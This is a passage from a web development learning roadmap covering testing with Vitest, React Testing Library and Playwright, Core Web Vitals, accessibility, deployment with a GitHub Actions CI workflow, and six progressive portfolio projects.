| :--- | :--- | :--- |
| **Unit tests** | **Vitest** | Pure logic: formatters, reducers, API clients (mocking network with MSW) |
| **Component tests** | **React Testing Library** | Components render correctly and respond to user interaction |
| **End-to-end tests** | **Playwright** | Real browser flows: login → create project → verify persistence |

### 12.1 Unit Tests with Vitest

```typescript
// Vitest unit test for a pure function
import { describe, expect, it } from 'vitest';
import { formatStars } from './format-stars';

describe('formatStars', () => {
  it('abbreviates thousands', () => {
    expect(formatStars(1420)).toBe('1.4k');
  });

  it('returns raw count below 1000', () => {
    expect(formatStars(142)).toBe('142');
  });
});
```

### 12.2 Component Tests with React Testing Library

```tsx
import { render, screen, fireEvent } from '@testing-library/react';
import { ProjectCard } from './ProjectCard';

test('ProjectCard toggles pin state', () => {
  const onTogglePin = vi.fn();
  render(<ProjectCard title="CC Website" stars={142} isPinned={false} onTogglePin={onTogglePin} />);

  // Query the way a user would — by role and name, not implementation details
  fireEvent.click(screen.getByRole('button', { name: /pin to top/i }));
  expect(onTogglePin).toHaveBeenCalledTimes(1);
});
```

* **Query like a user**: `getByRole`, `getByLabelText` — tests that survive refactors because they assert behavior, not internals.

### 12.3 End-to-End Tests with Playwright

```typescript
import { test, expect } from '@playwright/test';

test('contributor can pin a project and see it persist', async ({ page }) => {
  await page.goto('/projects');
  await page.getByRole('button', { name: /pin/i }).first().click();
  await expect(page.getByText('Pinned to top')).toBeVisible();

  // Reload — pinned state must survive because it lives on the server
  await page.reload();
  await expect(page.getByText('Unpin')).toBeVisible();
});
```

* **The pyramid**: many unit tests, fewer component tests, a small set of critical E2E flows.
* **CI integration**: Run the full suite on every pull request — see the [DevOps Roadmap](@/roadmaps/devops.md) for pipeline patterns.

---

## 13. Stage 12: Performance, Accessibility & Web Vitals

### 13.1 Core Web Vitals

Google's user-experience metrics — and a direct ranking factor in search:

| Metric | Measures | Target | Primary Levers |
| :--- | :--- | :--- | :--- |
| **LCP** (Largest Contentful Paint) | How fast the main content appears | ≤ 2.5s | Image optimization, SSR/SSG, CDN delivery |
| **INP** (Interaction to Next Paint) | How responsive interactions feel | ≤ 200ms | Breaking long tasks, lighter JS, memoization |
| **CLS** (Cumulative Layout Shift) | Visual stability | ≤ 0.1 | Reserving space (`aspect-ratio`, explicit dimensions) |

### 13.2 Practical Performance Work

* **Measure first**: Chrome DevTools Performance panel and Lighthouse — never optimize blindly.
* **Bundle discipline**: Code splitting per route, `React.lazy` for heavy components, analyze bundles with `vite-bundle-visualizer`.
* **Images**: Serve modern formats (WebP/AVIF), responsive `srcset`, lazy-load below-the-fold media — images are usually the largest payload on content pages.
* **Network**: Cache headers (`Cache-Control`), compression (Brotli), and moving static assets to a CDN.
* **Fonts**: Self-host with `next/font` or `font-display: swap`; subset to used glyphs; never load four weights you do not use.

### 13.3 Accessibility Is Not Optional



* [ ] Every image has meaningful `alt` text (or `alt=""` when decorative).
* [ ] Every interactive element reachable and operable by keyboard (Tab / Enter / Escape).
* [ ] Visible focus indicators — never `outline: none` without a replacement.
* [ ] Color contrast meets WCAG AA (4.5:1 body text, 3:1 large text) in both themes.
* [ ] Form fields have associated `<label>` elements.
* [ ] Pages have one `h1` and a hierarchical heading outline.
* [ ] Dynamic updates announce politely via `aria-live` regions.
* [ ] Tested once with a real screen reader (NVDA on Windows, VoiceOver on macOS).


* Semantic HTML covers 80% (Stage 1 was not optional).
* **Test with a screen reader** at least once — it changes how you write HTML permanently.

---

## 14. Stage 13: Deployment & Production Operations

* **Static & SPA hosting**: Netlify, Cloudflare Pages, or GitHub Pages — free tier is plenty for student projects.
* **Full-stack hosting**: Vercel (Next.js-native), Cloudflare Workers, or a VPS running behind Nginx.

| Hosting Path | Best For | You Learn |
| :--- | :--- | :--- |
| **Netlify / Cloudflare Pages** | Static sites, SPAs, quick portfolio deploys | Git-push deploys, preview environments |
| **Vercel** | Next.js applications (native ISR/SSR support) | Edge rendering, preview deploys per PR |
| **VPS + Nginx** | Full-stack apps, databases, background workers | Linux, TLS, systemd, reverse proxies — the real machinery |

* **CI/CD**: GitHub Actions running lint, types, and tests on every push, deploying on merge to `main`:

```yaml
# .github/workflows/ci.yml — quality gate for every pull request
name: CI
on:
  push:
    branches: [main]
  pull_request:

jobs:
  verify:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 22
          cache: npm
      - run: npm ci
      - run: npm run lint
      - run: npx tsc --noEmit
      - run: npm test -- --run
      - run: npm run build
```

* **Self-hosting is a superpower**: Running your own Nginx + TLS + systemd stack on a VPS teaches you what platforms automate — the [System Administration Roadmap](@/roadmaps/sysadmin.md) walks through it step by step.


**Own Your Production Path**: Deploy a real domain (free for students via the GitHub Education Pack) with HTTPS, custom CI, and monitoring. A live URL on your resume beats a local project every single time.


---

## 15. Six Progressive Milestone Projects

Theory without building creates tutorial dependence. Work through these six milestones in order — each one independently deployable and portfolio-worthy:


graph TD
    M1["Milestone 1: Portfolio & Landing Pages<br/>Focus: Semantic HTML, Modern CSS, Accessibility, Deployment"] --> M2["Milestone 2: PulseMetrics Web Converter<br/>Focus: Vanilla JavaScript, Modules, LocalStorage"]
    M2 --> M3["Milestone 3: DevPulse GitHub Explorer<br/>Focus: React 19, TypeScript, Vite, TanStack Query"]
    M3 --> M4["Milestone 4: Chronicle Notes Full-Stack<br/>Focus: Node.js, REST API, PostgreSQL, Auth"]
    M4 --> M5["Milestone 5: PulseBoard Analytics Dashboard<br/>Focus: Next.js, Server Components, Charts, Real-Time"]
    M5 --> M6["Milestone 6 (Capstone): OmniMarket Storefront<br/>Focus: ISR, Payments, Testing, CI/CD"]


### Milestone 1: Personal Portfolio & Product Landing Pages
* **Goal**: Build and deploy your professional portfolio site and one pixel-faithful product landing page (recreate an Apple or Stripe product page layout).
* **Core Concepts**: Semantic HTML5, Flexbox/Grid layouts, responsive breakpoints, dark mode with custom properties, Lighthouse-passing accessibility, and first deployment to Netlify or GitHub Pages.
* **Stretch Goals**: Perfect 100 Lighthouse accessibility score; add a contact form with client-side validation and a success state.
* **Portfolio Value**: A live URL demonstrating layout discipline and accessibility fundamentals — no framework crutches.

### Milestone 2: PulseMetrics Web Converter
* **Goal**: An interactive unit and currency conversion tool in pure JavaScript — no framework.
* **Core Concepts**: ES modules, DOM manipulation, event handling, `fetch` against a public exchange-rate API, client-side persistence with `localStorage`, debounced search, and error states for offline usage.
* **Stretch Goals**: Cache last-known exchange rates for offline use; add keyboard navigation and unit presets.
* **Portfolio Value**: Proves you can build interactive software with zero abstractions — the foundation frameworks stand on.

### Milestone 3: DevPulse GitHub Explorer
* **Goal**: A TypeScript React SPA exploring GitHub repositories with search, filters, and bookmarking.
* **Core Concepts**: React 19 components and hooks, TanStack Query for API caching, Zustand for bookmark state, Tailwind CSS v4 styling, and component testing with Vitest + React Testing Library.
* **Stretch Goals**: Infinite scroll with query pagination; dark/light theme via your persisted Zustand store; 80%+ unit coverage on utility functions.
* **Portfolio Value**: Industrial-grade API consumption and typed component architecture — the exact stack the React Native roadmap builds on next.

### Milestone 4: Chronicle Notes Full-Stack
* **Goal**: A full-stack note-taking application with user accounts, markdown rendering, and full-text search.
* **Core Concepts**: Node.js + Express/Hono REST API, PostgreSQL accessed via Prisma, session-based authentication with hashed passwords, Zod-validated CRUD endpoints, and role-based access control.
* **Stretch Goals**: PostgreSQL full-text search; rate limiting on auth endpoints; sanitized markdown rendering (DOMPurify) — your first real XSS defense.
* **Portfolio Value**: Demonstrates complete full-stack ownership: schema design, auth security, and API engineering.

### Milestone 5: PulseBoard Analytics Dashboard
* **Goal**: A data-dense analytics dashboard with charts, live-updating metrics, and exportable reports.
* **Core Concepts**: Next.js App Router with mixed rendering (server components for data, client components for charts), charting with a modern library, WebSocket or polling-based live updates, and Core Web Vitals optimization.
* **Stretch Goals**: All three Core Web Vitals in the "good" range on real hardware; CSV export; keyboard-navigable charts.
* **Portfolio Value**: Proves you can architect mixed-rendering applications and optimize real performance budgets.

### Milestone 6 (Capstone): OmniMarket Storefront
* **Goal**: A production-grade e-commerce storefront compiling from a single Next.js codebase: catalog, cart, checkout, and order history.
* **Core Concepts**:
  * ISR product pages with on-demand revalidation; SSR for personalized cart state.
  * Payment integration (Stripe test mode) with webhook order fulfillment.
  * PostgreSQL schema with migrations; seeded catalog data.
  * Auth.js authentication with role-based admin panel.
  * Security hardening: CSP headers, CSRF-safe mutations, audited dependencies.
  * Playwright E2E suite covering browse → cart → checkout → order confirmation.
  * GitHub Actions CI/CD pipeline: lint, type-check, test, deploy on merge.
* **Portfolio Value**: A definitive capstone proving complete full-stack mastery — rendering strategy, payments, security, testing, and automated deployment.

---

## 16. Curated Official Resources

Deepen your web mastery using these vetted, authoritative sources:



















**Books** (for depth after the fundamentals):
* *Eloquent JavaScript* by Marijn Haverbeke — free online; the best-written JS introduction.
* *You Don't Know JS Yet* by Kyle Simpson — the deep mechanics of closures, `this`, and the event loop.

**Video courses** (for orientation and momentum — use official documentation for actual mastery):
* **English — freeCodeCamp**: Full-length HTML/CSS, JavaScript, and React courses on YouTube.
* **English — The Net Ninja**: Short, focused playlist series on nearly every web technology.
* **English — Fireship**: High-level overviews and "100 seconds" intros — great for orientation, not depth.
* **Hindi — Chai aur Code**: JavaScript, backend, and full-stack series with strong fundamentals.
* **Hindi — Sheryians Coding School**: Frontend, animations, and project-based learning.


---

## 17. Where to Next in the CC Ecosystem

Web development is the hub of the CC roadmap ecosystem — nearly every other path connects to it:

* **[React Native & Expo Roadmap](@/roadmaps/react-native.md)** — take your React, TypeScript, and TanStack Query skills straight to native mobile apps. The single most natural next step for a React web developer.
* **[System Administration Roadmap](@/roadmaps/sysadmin.md)** — self-host your web projects: Linux servers, Nginx reverse proxies, TLS automation, and deployment operations.
* **[DevOps Roadmap](@/roadmaps/devops.md)** — automate your build, test, and deployment pipelines with Docker, GitHub Actions, and cloud infrastructure.
* **[Desktop Application Development Roadmap](@/roadmaps/desktop-development.md)** — turn your React skills into native desktop apps with Electron or Tauri.
* **[Open Source Contribution Roadmap](@/roadmaps/open-source.md)** — contribute to the frameworks and libraries you just learned — the highest-leverage way to deepen them.
